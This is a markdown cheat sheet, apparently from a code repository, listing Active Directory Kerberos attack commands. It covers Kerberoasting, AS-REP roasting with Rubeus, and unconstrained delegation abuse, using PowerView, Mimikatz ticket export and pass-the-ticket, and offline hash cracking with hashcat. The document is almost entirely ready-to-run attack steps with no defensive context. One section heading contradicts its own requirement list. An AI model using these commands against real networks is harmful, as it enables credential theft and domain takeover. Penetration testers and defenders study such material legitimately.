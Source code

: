 # Kerberos Attacks

## Kerberoasting

Requirements:  
- PowerView
- Hashcat

```powershell
# Find user accounts used as service accounts
Get-NetUser -SPN
Request-SPNTicket "<spn>" -Format Hashcat   # If this doesn't work in hashcat, also try "-Format John"

# Save the hash via copy and paste to a text file for cracking
# Crack with hashcat
hashcat -m 13100 -a 0 hash.txt  /path/to/wordlist.txt
```

## Kerberoasting without PowerView

Requirements:  
- PowerView
- Invoke-Mimikatz.ps1 or Mimikatz.exe
- TGSrepcrack.py

```powershell
# Find user accounts used as service accounts
Get-NetUser -SPN

# Fetching SPN ticket 
Add-Type –AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList ‘MSSQLSvc/jefflab-sql02.jefflab.local:1433’

# Use Invoke-Mimikatz or Mimikatz to pull these tickets from memory
Invoke-mimikatz -Command '"kerberos::list /export"' OR kerberos::list /export

# Crack with TGSrepcrack.py
python3 tgsrepcrack.py wordlist.txt <ticket>.kirbi
```

## AS-REP Roasting

Requitements:  
- Rubeus.exe
- Hashcat

```powershell
# With Rubeus and hashcat
.\Rubeus.exe asreproast
# Copy any hashes to text files
hashcat -m 18200 asreproast-hash.txt /path/to/wordlist.txt
```

## Unconstrained Delegation

Requirements:  
- High privileged user or a shell as system
- PowerView
- Invoke-Mimikatz.ps1 OR Mimikatz.exe

```powershell
# With higher privs, or a shell running as system
Get-NetComputer -UnConstrained

# Compromise where unconstrained delegation is enabled
## With Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
# The DA token could be reused
Invoke-Mimikatz -Command '"kerberos::ptt C:\path\to\ticket.kirbi"'
## With Mimikatz.exe
.\mimikatz.exe
sekurlsa::tickets
sekurlsa::tickets /export
# The DA token could be reused
kerberos::ptt "C:\path\to\ticket.kirbi"
```

